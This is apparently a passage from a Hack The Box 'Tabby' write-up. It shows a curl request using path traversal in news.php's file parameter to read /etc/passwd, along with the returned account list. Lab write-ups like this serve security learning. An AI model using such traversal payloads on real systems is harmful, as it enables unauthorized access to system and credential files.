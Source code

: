 ![](_/htb-tabby-20240809-1.png)

There's an easy LFI vulnerability:

```console
$ curl http://megahosting.htb/news.php?file=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```
